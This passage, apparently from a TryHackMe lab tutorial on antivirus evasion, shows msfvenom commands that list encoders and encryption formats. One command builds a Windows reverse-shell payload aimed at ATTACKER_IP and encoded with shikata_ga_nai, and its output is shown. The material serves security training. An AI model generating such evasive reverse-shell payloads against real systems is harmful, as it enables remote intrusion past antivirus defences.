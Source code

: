 Public Tools such as Metasploit provide encoding and encryption features. However, AV vendors are aware of the way these tools build their payloads and take measures to detect them. If you try using such features out of the box, chances are your payload will be detected as soon as the file touches the victim's disk.

Let's generate a simple payload with this method to prove that point. First of all, you can list all of the encoders available to msfvenom with the following command:  

Listing Encoders within theMetasploitFramework

```shell-session
user@AttackBox$ msfvenom --list encoders | grep excellent
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```

We can indicate we want to use the `shikata_ga_nai` encoder with the `-e`(encoder) switch and then specify we want to encode the payload three times with the `-i` (iterations) switch:

Encoding using theMetasploitFramework (Shikata_ga_nai)

```shell-session
user@AttackBox$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai chosen with final size 422
Payload size: 422 bytes
Final size of csharp file: 2170 bytes
```

If we try uploading our newly generated payload to our test machine, the AV will instantly flag it before we even get a chance to execute it:

![Windows Defender detected our payload as malicious!](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/747c69e737c96044123329c47845f659.png) 


If encoding doesn't work, we can always try encrypting the payload. Intuitively, we would expect this to have a higher success rating, as decrypting the payload should prove a harder task for the AV. Let's try that now.

## Encryption using MSFVenom

You can easily generate encrypted payloads using msfvenom. The choices for encryption algorithms are, however, a bit scarce. To list the available encryption algorithms, you can use the following command:

Listing encryption modules within theMetasploitFramework

```shell-session
user@AttackBox$ msfvenom --list encrypt
Framework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor
```
